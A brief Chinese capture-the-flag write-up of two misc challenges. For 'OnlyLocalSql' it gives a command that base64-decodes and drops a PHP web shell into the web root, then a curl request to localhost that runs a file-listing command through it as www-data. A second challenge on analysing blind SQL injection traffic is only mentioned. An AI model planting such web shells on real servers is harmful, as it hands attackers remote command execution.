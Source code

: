 [![](assets/1708482491-9cbee575df3a717f29654587e18c9977.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240220140833-79ffcc34-cfb6-1.png)

# MISC

比赛的时候 MISC 一题没看 Orz

## OnlyLocalSql(赛后)

`ctf`​用户可以修改`/var/www/html`​目录，直接在里面添加一个木马文件，通过木马文件执行的命令权限就是`www-data`​

可以绕过`flag`​的限制

```bash
echo PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7Pz4= | base64 -d > /var/www/html/1.php
curl http://127.0.0.1/1.php?cmd=nl+/*
```

## sqlshark(赛后)

盲注语句分析，直接筛选`HTTP`​流量然后分析盲注`payload`​就好

‍
